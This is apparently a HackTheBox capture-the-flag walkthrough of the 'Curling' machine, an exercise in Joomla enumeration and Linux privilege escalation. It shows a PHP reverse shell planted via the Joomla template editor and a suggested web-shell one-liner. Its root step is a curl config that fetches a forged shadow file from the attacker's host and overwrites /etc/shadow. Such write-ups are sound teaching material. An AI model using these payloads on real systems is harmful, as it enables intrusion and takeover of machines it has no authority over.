### Summary
- we find **Joomla** running on HTTP port 80 and we get a **list of usernames** *from the posts on the main page.*
- *Inspecting the home page's source code,* we find a comment about a `secret.txt` file which happens to be at the webroot.
- The contents of the file reveal a **base64-encoded password** which we use to *gain administrative access* to **Joomla** using the `floris` user.
- We *abuse* the **Joomla Administrator's** ability to *edit PHP files* to place a **reverse shell** and gain access as the `www-data` user.
- We find a **readable hexdump** called `password_backup` in `floris`'s home folder which we *reverse* to a binary and *decompress* to gain the password for the `floris` user.
- *Detecting unusal activity on the box* with `pspy` reveals a *cron job running as* `root` and executing a `curl` command that *reads its configuration from a file we can modify.*
- *Abusing* `curl` for **privileged read/write access** lets us get a shell as `root` by *forging our own* `/etc/shadow` file.

---

### Nmap
We start out by doing the standard nmap with `-sC` and `-sV` flags:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The `http-generator` **NSE script** showed **Joomla** as the web app on port 80. so we go ahead and check it out.

### Checking Joomla Out


We notice two potential usernames:
1. `super user`
2. `floris`

which could be of use. so we note them down. and try logging in with weak passwords like:
- password
- Password
- P@ssw0rd
- P@$$w0rd
- admin
- root

but they don't work with either users.

so we visit `http://10.10.10.150/README.txt` to check out **Joomla's version** and we notice it is **3.8**



we try doing a quick searchsploit *excluding Joomla Components* (*since there were a TON of them!*). but see no clear match of the version we detected.



### Specialized Scanner: Joomscan

so we check to see if we can run a **specialized scanner** for Joomla (*since it's a well-known CMS*). *After some research,* we find a tool called `joomscan`. We check out its help menu and notice it's pretty straight forward. It accepts the `url` and give us the option to enumerate compoents using the `-ec` flag. *This could benefit us since we have noticed a million exploits for vulnerable Joomla components*.



*After running a scan,* we find that:
- There wasn't a firewall detected. which is nice :D
- The Joomla version was indeed 3.8.8 and wasn't vulnerable.
- The **Administrator panel** is at `http://10.10.10.150/administrator/`
- we find `directory listing` enabled on a couple of interesting urls:
	1. `/administrator/components`
	2. `/administrator/modules`
	3. `/administrator/templates`
- we find the components within the cms:
	1. com_ajax
	2. com_banners
	3. com_contact
	4. com_content
	5. com_contenthistory
	6. com_fields
	7. com_finder
	8. com_mailto
	9. com_media
	10. com_newsfeeds
	11. com_search
	12. com_users
	13. com_wrapper

So we browse those directories for a bit to find out there wasn't much valuable information there.

We also do `searchsploit` queries for the components found but we don't find any exploits for them.

### Checking Source Code

*Since the situation wasn't looking too good with the "looking for an exploit" path,* we go back to the basics and look at the source code of the home page.
And lo and behold! we find a comment right at the bottom saying `secret.txt`!


we can get a cleaner view if we grep for comments after *curling* the page:



*Anyway,* we browse to `/secret.txt` to find some text:



I immediately try the text as the password on the admin panel with the users:
1. floris
2. superuser
3. admin
4. administrator

but nothing!

### It's not a complex password ... it's Base64 encoded

*Despite that,* seeing this file hidden in the comments + it being called `secret.txt` are factors making me consider that it's important. Something must be missing here... I go for a walk and come back to decide maybe this text *isn't some randomly-generated password* and is encrypted or something. So i drop it onto `CyberChef` (https://gchq.github.io/CyberChef/). It was a base64 encoded text >> `Curling2018!`.



We use this with the `floris` user and we are logged in as the `Super User`!

I thought to myself like "why you no think of this earlier?" XD



### Admin on Joomla = PHP Code Execution

Being logged in as the administrative user on Joomla means an **easy shell**.

`Extensions -> Templates -> Templates --> Select the Theme in Use --> Edit Index.php for a PHP reverse shell` (https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Not the most stealthy option I know. But this is a CTF XD

*If it were a real-world scenario though,* I would have set up a much more subtle payload like `php exec($_REQUEST["cmd"]);`



*After upgrading our shell to fully-interactive TTY,* we start checking the system...

### Browsing user home folders

We find the user `floris` on the system. And, *as we're browsing through his/her home folder,* we see two *non-standard* items:
1. a file called `password_backup` that we have read access to.
2. a folder called `admin_area` where only `root` and `floris` can see its contents.



### Reversing a hexdump and Decompressing multiple layers

so we take a look at the contents of `password_backup` and see what looks like a **hexdump**:

```
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48 
```

*after some quick research on "how to read contents of a hexdump",* we find that we need to use the `xxd` tool with the `-r` flag to convert the file to a binary.

```
www-data@curling:/tmp$ xxd -h
Usage:
       xxd [options] [infile [outfile]]
    or
       xxd -r [-s [-]offset] [-c cols] [-ps] [infile [outfile]]
Options:
    -a          toggle autoskip: A single '*' replaces nul-lines. Default off.
    -b          binary digit dump (incompatible with -ps,-i,-r). Default hex.
    -c cols     format <cols> octets per line. Default 16 (-i: 12, -ps: 30).
    -E          show characters in EBCDIC. Default ASCII.
    -e          little-endian dump (incompatible with -ps,-i,-r).
    -g          number of octets per group in normal output. Default 2 (-e: 4).
    -h          print this summary.
    -i          output in C include file style.
    -l len      stop after <len> octets.
    -o off      add <off> to the displayed file position.
    -ps         output in postscript plain hexdump style.
    -r          reverse operation: convert (or patch) hexdump into binary.
    -r -s off   revert with <off> added to file positions found in hexdump.
    -s [+][-]seek  start at <seek> bytes abs. (or +: rel.) infile offset.
    -u          use upper case hex letters.
    -v          show version: "xxd V1.10 27oct98 by Juergen Weigert".
```

`    -r          reverse operation: convert (or patch) hexdump into binary.`

So we go ahead and do that. And we use the `file` command against the output.

It's very handy when you want to know what file type you're dealing with.

```
www-data@curling:/home/floris$ xxd -r password_backup > /tmp/hex
www-data@curling:/home/floris$ cd /tmp/
www-data@curling:/tmp$ file hex 
hex: bzip2 compressed data, block size = 900k
```

It's compressed using `bzip2`. so we go ahead and extract it using `bzip2` and the `-d` flag. Then again use the `file` command to see what we got.

```
www-data@curling:/tmp$ bzip2 -d hex 
bzip2: Can't guess original name for hex -- using hex.out
www-data@curling:/tmp$ file hex.out 
hex.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
```

Alright, this time it's compressed with `gzip`. so we use `gzip` with the `-d` flag for extraction. But we get an error for the file having an unknown suffix. This forces us to rename the file adding a `.gz` at the end before retrying. And we follow with yet another `file` command.

```
www-data@curling:/tmp$ gzip -d hex.out 
gzip: hex.out: unknown suffix -- ignored
www-data@curling:/tmp$ mv hex.out hex.out.gz
www-data@curling:/tmp$ gzip -d hex.out.gz 
www-data@curling:/tmp$ file hex.out 
hex.out: bzip2 compressed data, block size = 900k
```

Looks like another round of compression with `bzip2`.

```
www-data@curling:/tmp$ bzip2 -d hex.out 
bzip2: Can't guess original name for hex.out -- using hex.out.out
www-data@curling:/tmp$ file hex.out.out 
hex.out.out: POSIX tar archive (GNU)
```

And again but this time with `tar`. We're using the flags `-xvf`

```
www-data@curling:/tmp$ tar -xvf hex.out.out 
password.txt
www-data@curling:/tmp$ file password.txt 
password.txt: ASCII text
www-data@curling:/tmp$ cat password.txt 
5d<wdCbdZu)|hChXll
```

At last we get some ASCII text :D We're going to try and switch user to `floris` using that password.

*In case you were wondering, I did try reusing the password in `secret.txt` but it didn't work :/*



it was indeed the password for the `floris` user :D *It would've been a bad troll move if it weren't XD*

### Privilege Escalation

Right off the bat, we check `sudo -l -l` for an easy win. But don't find anything there.

we go the **webroot** and check `configuration.php` for some creds. And, we DO find some for the local database:



### DB Enumeration

we use the the creds to enumerate the database. but find nothing special there.



`mysql> show databases;`

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Joombla            |
+--------------------+
2 rows in set (0.00 sec)
```

`mysql> use Joombla;`

```
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

`mysql> show tables;`

```
+-------------------------------+
| Tables_in_Joombla             |
+-------------------------------+
| eslfu_assets                  |
| eslfu_associations            |
| eslfu_banner_clients          |
| eslfu_banner_tracks           |
| eslfu_banners                 |
| eslfu_categories              |
| eslfu_contact_details         |
| eslfu_content                 |
| eslfu_content_frontpage       |
| eslfu_content_rating          |
| eslfu_content_types           |
| eslfu_contentitem_tag_map     |
| eslfu_core_log_searches       |
| eslfu_extensions              |
| eslfu_fields                  |
| eslfu_fields_categories       |
| eslfu_fields_groups           |
| eslfu_fields_values           |
| eslfu_finder_filters          |
| eslfu_finder_links            |
| eslfu_finder_links_terms0     |
| eslfu_finder_links_terms1     |
| eslfu_finder_links_terms2     |
| eslfu_finder_links_terms3     |
| eslfu_finder_links_terms4     |
| eslfu_finder_links_terms5     |
| eslfu_finder_links_terms6     |
| eslfu_finder_links_terms7     |
| eslfu_finder_links_terms8     |
| eslfu_finder_links_terms9     |
| eslfu_finder_links_termsa     |
| eslfu_finder_links_termsb     |
| eslfu_finder_links_termsc     |
| eslfu_finder_links_termsd     |
| eslfu_finder_links_termse     |
| eslfu_finder_links_termsf     |
| eslfu_finder_taxonomy         |
| eslfu_finder_taxonomy_map     |
| eslfu_finder_terms            |
| eslfu_finder_terms_common     |
| eslfu_finder_tokens           |
| eslfu_finder_tokens_aggregate |
| eslfu_finder_types            |
| eslfu_languages               |
| eslfu_menu                    |
| eslfu_menu_types              |
| eslfu_messages                |
| eslfu_messages_cfg            |
| eslfu_modules                 |
| eslfu_modules_menu            |
| eslfu_newsfeeds               |
| eslfu_overrider               |
| eslfu_postinstall_messages    |
| eslfu_redirect_links          |
| eslfu_schemas                 |
| eslfu_session                 |
| eslfu_tags                    |
| eslfu_template_styles         |
| eslfu_ucm_base                |
| eslfu_ucm_content             |
| eslfu_ucm_history             |
| eslfu_update_sites            |
| eslfu_update_sites_extensions |
| eslfu_updates                 |
| eslfu_user_keys               |
| eslfu_user_notes              |
| eslfu_user_profiles           |
| eslfu_user_usergroup_map      |
| eslfu_usergroups              |
| eslfu_users                   |
| eslfu_utf8_conversion         |
| eslfu_viewlevels              |
+-------------------------------+
72 rows in set (0.00 sec)
```

`mysql> describe eslfu_users;`

```
+---------------+---------------+------+-----+---------------------+----------------+
| Field         | Type          | Null | Key | Default             | Extra          |
+---------------+---------------+------+-----+---------------------+----------------+
| id            | int(11)       | NO   | PRI | NULL                | auto_increment |
| name          | varchar(400)  | NO   | MUL |                     |                |
| username      | varchar(150)  | NO   | MUL |                     |                |
| email         | varchar(100)  | NO   | MUL |                     |                |
| password      | varchar(100)  | NO   |     |                     |                |
| block         | tinyint(4)    | NO   | MUL | 0                   |                |
| sendEmail     | tinyint(4)    | YES  |     | 0                   |                |
| registerDate  | datetime      | NO   |     | 0000-00-00 00:00:00 |                |
| lastvisitDate | datetime      | NO   |     | 0000-00-00 00:00:00 |                |
| activation    | varchar(100)  | NO   |     |                     |                |
| params        | text          | NO   |     | NULL                |                |
| lastResetTime | datetime      | NO   |     | 0000-00-00 00:00:00 |                |
| resetCount    | int(11)       | NO   |     | 0                   |                |
| otpKey        | varchar(1000) | NO   |     |                     |                |
| otep          | varchar(1000) | NO   |     |                     |                |
| requireReset  | tinyint(4)    | NO   |     | 0                   |                |
+---------------+---------------+------+-----+---------------------+----------------+
16 rows in set (0.01 sec)
```

`mysql> select username,password from eslfu_users;`

```
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| floris   | $2y$10$4t3DQSg0DSlKcDEkf1qEcu6nUFEr/gytHfVENwSmZN1MXxE1Ssx.e |
+----------+--------------------------------------------------------------+
1 row in set (0.00 sec)
```

We find only the `floris` user there which we happen to already have.

we grab the other password:

`public $secret = 'VGQ09exHr8W2leID';`

and try to `su` as `root`. But, it's not going to be that easy :D

Note: Enumerating the database is a step we could have done using the `www-data` user of course. But my attention was intrigued more by the `password_backup` file and that's why I went for it first.

### Detecting unusual activity

*After running `linpeas`,* we don't find much leads to investigate. So we turn to the folder `admin-area` in the `home` of the `floris` user. And we notice that the files `input` and `report` have been very recently modified.



we check their contents:



it seems that a `curl` command is being executed on the `localhost` url `http://127.0.0.1` which sends the output into the `report` file. We know that because of the error message `WARNING: Failed to daemonise.  This is quite common and not fatal.` which is the error you get when you trigger a `PHP reverse shell` without a listener.

### Running a quick test to verify our hypothesis

We can confirm that by starting a listener to see if something connects back.



It does happen :D but we need more information to be able to exploit this

### PSPY

we want to get `pspy` (https://github.com/DominicBreuker/pspy) on the victim machine so we can start monitoring what's goin on inside the system. `pspy` is a tool you can use to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. It's very handy.

after making the binary executable, we start it and notice some very interesting activity going on.



`/bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input` a user who can read the file `default.txt` within the `root` folder is getting its contents into the `input` file in the home folder of the `floris` user.

`/bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report` as we thought, a curl command is being run which outputs to the `report` file. But we notice that it uses the `-K` flag which lets the curl command read the `input` file as its configuration.



### Abusing cURL

we do a search on GTFO Bins (https://gtfobins.github.io/gtfobins/curl/) and find we can get a `file read` using `curl`



since we can modify the the `input` file, we have pretty good control over the curl command. we try reading the `/etc/shadow` file



and we manage to get the `shadow` file contents :D so it works!



### Getting a shell by altering the shadow file

*alright, with this,* we can totally read the `root.txt` file. But that wouldn't be fun :D ... we're going for a shell :D

*since we can read the `shadow` file, and we can use the `curl` command's `output` functionality to write as root,* we can **forge** our own `shadow` version.

we first need to create a `SHA-512` hash using `mkpasswd`



then we need to replace `root`'s hash with our own in the `shadow` file we got.

notice the `diff` between `my_shadow` which is our forged one in comparison with `his_shadow` which is the one we got from the victim



*alright, with that set,* we will want the `curl` command running as `root` to read our forged shadow file and write it over the old one.

we can do this by modifiying the `input` file like this:

```
floris@curling:~/admin-area$ cat input 
url = "http://10.10.16.6/my_shadow"
output = "/etc/shadow"
```

we start our `python3` webserver and we get a `GET` request :D

We then `su` as the `root` user and get our root shell! :D

